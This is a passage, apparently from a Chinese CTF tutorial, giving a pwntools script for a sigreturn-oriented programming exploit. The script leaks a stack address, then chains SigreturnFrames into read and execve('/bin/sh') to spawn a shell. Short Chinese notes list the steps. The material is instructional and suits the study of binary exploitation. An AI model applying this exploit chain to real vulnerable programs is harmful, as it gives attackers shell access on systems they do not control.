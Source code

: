 ```python
sh.send(payload)

# modify the return addr to start_addr+3
# so that skip the xor rax,rax; then the rax=1
# get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

# make the rsp point to stack_addr
# the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

# set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

# call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
- 那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入payload
- 再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
- 再次读取构造sigreturn调用，从而获取shell。

## 题目
